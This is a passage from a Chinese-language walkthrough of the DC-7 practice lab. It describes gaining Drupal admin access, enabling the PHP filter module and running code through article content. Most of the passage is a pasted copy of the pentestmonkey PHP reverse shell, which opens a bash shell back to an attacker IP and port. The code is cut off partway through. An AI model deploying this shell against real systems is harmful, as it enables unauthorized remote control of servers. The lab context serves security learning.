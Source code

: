 成功修改了密码，尝试登录，成功进入admin后台

![admin](E:\笔记软件\笔记\渗透测试\靶机练习\DC7图库\admin.png)

我们能利用的地方就只有添加文章一处位置，但是该处文章内容均被修饰，但是我们有权限可以自行添加功能，手动下载php filter模块

如此我们就能在添加文章处通过php代码执行命令了，接下来拿shell,尝试了几个shell,基本上都是连上就断开了，下面这个shell连接成功

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.121.135';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

```